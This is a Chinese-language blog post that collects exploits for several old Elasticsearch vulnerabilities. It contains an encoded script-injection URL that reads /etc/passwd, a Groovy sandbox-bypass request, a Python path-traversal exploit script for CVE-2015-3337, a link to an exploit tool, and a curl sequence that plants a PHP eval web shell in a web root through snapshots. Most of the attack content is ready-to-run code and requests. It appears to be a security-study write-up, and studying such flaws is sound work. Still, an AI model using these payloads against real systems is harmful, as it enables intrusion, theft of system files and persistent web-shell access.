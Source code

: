 ```yaml
---
layout: post
title: ElasticSearch几个漏洞总结
categories:
- Pocket
tags:
---
```

原文地址：http://m.blog.csdn.net/article/details?id=51175761

收藏时间：2017-01-13 09:56:01

<div  lang="en">
<h3 id="elasticsearch远程命令执行_cve-2014-3120" nodeIndex="18">ElasticSearch远程命令执行(CVE-2014-3120)</h3>
<div class="level4" nodeIndex="19">
<p nodeIndex="20">漏洞介绍：</p>
<p nodeIndex="21">ElasticSearch有脚本执行(scripting)的功能，可以很方便地对查询出来的数据再加工处理。ElasticSearch用的脚本引擎是MVEL，这个引擎没有做任何的防护，或者沙盒包装，所以直接可以执行任意代码。</p>
<p nodeIndex="22">而在ElasticSearch 1.2之前的版本中，默认配置是打开动态脚本功能的，如果用户没有更改默认配置文件，攻击者可以直接通过http请求执行任意代码。</p>
<p nodeIndex="23">测试POC：</p>
<pre code_snippet_id="1651053" snippet_file_name="blog_20160417_1_3949548" name="code" class="plain" nodeIndex="24">
http://127.0.0.1:9200/_search?source=%7B%22size%22%3A1%2C%22query%22%3A%7B%22filtered%22%3A%7B%22query%22%3A%7B%22match_all%22%3A%7B%7D%7D%7D%7D%2C%22script_fields%22%3A%7B%22%2Fetc%2Fhosts%22%3A%7B%22script%22%3A%22import%20java.util.*%3B%5Cnimport%20java.io.*%3B%5Cnnew%20Scanner(new%20File(%5C%22%2Fetc%2Fhosts%5C%22)).useDelimiter(%5C%22%5C%5C%5C%5CZ%5C%22).next()%3B%22%7D%2C%22%2Fetc%2Fpasswd%22%3A%7B%22script%22%3A%22import%20java.util.*%3B%5Cnimport%20java.io.*%3B%5Cnnew%20Scanner(new%20File(%5C%22%2Fetc%2Fpasswd%5C%22)).useDelimiter(%5C%22%5C%5C%5C%5CZ%5C%22).next()%3B%22%7D%7D%7D&callback=jQuery111107529820275958627_1400564696673&_=1400564696674
</pre>
 <br nodeIndex="98"></div>
<h3 nodeIndex="25"><strong nodeIndex="99">Elasticsearch Groovy任意命令执行漏洞</strong></h3>
<p nodeIndex="26">影响版本为1.3.0-1.3.7以及1.4.0-1.4。漏洞原因是elasticsearch使用groovy作为脚本语言，虽然加入了沙盒进行控制，危险的代码会被拦截，但是由于沙盒限制的不严格，通过黑白名单来判断，导致可以绕过，实现远程代码执行。</p>
<p nodeIndex="27">代码格式如下：</p>
<pre code_snippet_id="1651053" snippet_file_name="blog_20160417_2_8485917" name="code" class="plain" nodeIndex="28">
POST http://127.0.0.1:9200/_search?pretty HTTP/1.1
User-Agent: es
Host: 127.0.0.1:9200
Content-Length: 132

{
"size":1,
    "script_fields": {
        "lupin": {
            "script": "java.lang.Math.class.forName(\“java.lang.Runtime\”)"
        }
    }
}
</pre>
 <br nodeIndex="100"><p nodeIndex="29">向_search?pretty页面发送一段json脚本，script替换成绕过沙箱的攻击脚本，可以实现任意命令执行。</p>
<p nodeIndex="30">漏洞利用工具：<a target="_blank" href="http://1.he1m4n6a.sinaapp.com/medias/ElasticSearchEXP-master.zip" nodeIndex="101">elasticsearch利用工具</a> <br nodeIndex="102"></p>

<h3 nodeIndex="32"><strong nodeIndex="104">Elasticsearch未授权访问</strong></h3>
<p nodeIndex="33">elasticsearch在安装了river之后可以同步多种数据库数据（包括关系型的mysql、mongodb等）。http://localhost:9200/_cat/indices里面的indices包含了_river一般就是安装了river了。</p>
<p nodeIndex="34">picture from wooyun</p>
<div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2017-01-13-1561426285/1"/></div>
<p nodeIndex="36">http://localhost:9200/_rvier/_search就可以查看敏感信息了</p>
<div id="RIL_IMG_2" class="RIL_IMG"><img src="/media/posts_images/2017-01-13-1561426285/2"/></div>

<h3 nodeIndex="39"><strong nodeIndex="108">Elasticsearch任意文件读取漏洞</strong></h3>
<p nodeIndex="40">原来代码是</p>
<pre code_snippet_id="1651053" snippet_file_name="blog_20160417_2_2586345" name="code" class="java" nodeIndex="41">
if (!Files.exists(file) || Files.isHidden(file))
</pre>
<p nodeIndex="42">补丁后</p>
<pre class="lang:default decode:true" nodeIndex="43">
</pre>
<pre code_snippet_id="1651053" snippet_file_name="blog_20160417_3_4396489" name="code" class="java" nodeIndex="44">
if (!Files.exists(file) || Files.isHidden(file) || !file.toAbsolutePath().normalize().startsWith(siteFile.toAbsolutePath()))
</pre>
<p nodeIndex="45">说明原来这里有漏洞，最后代码会进入</p>
<pre code_snippet_id="1651053" snippet_file_name="blog_20160417_4_6555296" name="code" class="plain" nodeIndex="46">
 try {
            byte[] data = Files.readAllBytes(file);
            channel.sendResponse(new BytesRestResponse(OK, guessMimeType(sitePath), data));
        } catch (IOException e) {
            channel.sendResponse(new BytesRestResponse(INTERNAL_SERVER_ERROR));
        }
</pre>
 <br nodeIndex="109"><p nodeIndex="47">会读取文件的内容，造成任意文件读取。</p>
<p nodeIndex="48">利用exp</p>
<pre code_snippet_id="1651053" snippet_file_name="blog_20160417_5_317288" name="code" class="python" nodeIndex="49">
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests

def elastic_directoryTraversal(host,port):
        pluginList = ['test','kopf', 'HQ', 'marvel', 'bigdesk', 'head']
        pList = ['/../../../../../../../../../../../../../../etc/passwd','/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd','/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/windows/win.ini']
        for p in pluginList:
                for path in pList:
                        urlA = "http://%s:%d/_plugin/%s%s" % (host,port,p,path)
                        try:
                                content = requests.get(urlA,timeout=5,allow_redirects=True,verify=False).content
                                if "/root:/" in content:
                                        print 'Elasticsearch 任意文件读取漏洞(CVE-2015-3337) Found!'
                        except Exception,e:
                                print e
 
elastic_directoryTraversal(host,port)
</pre>
 <br nodeIndex="110"><h3 nodeIndex="50">elasticsearch Snapshot 写php shell</h3>
<p nodeIndex="51">在PHP环境下利用：</p>
<pre code_snippet_id="1651053" snippet_file_name="blog_20160417_6_7667328" name="code" class="plain" nodeIndex="52">
curl -XDELETE http://localhost:9200/test.php

curl -XDELETE http://localhost:9200/_snapshot/test.php

curl -XPOST http://localhost:9200/test.php/test.php/1 -d' 
{"<?php eval($_POST[chr(97)]);?>":"test"}'

curl http://localhost:9200/test.php/_search?pretty

curl -XPUT 'http://localhost:9200/_snapshot/test.php' -d '{ 
     "type": "fs", 
     "settings": { 
          "location": "/data/httpd/htdocs/default", 
          "compress": false 
     } 
}'

curl -XPUT "http://localhost:9200/_snapshot/test.php/test.php" -d '{ 
     "indices": "test.php", 
     "ignore_unavailable": "true", 
     "include_global_state": false 
}'
</pre>
 <br nodeIndex="111"><p nodeIndex="53">需要知道web目录location</p>

</div>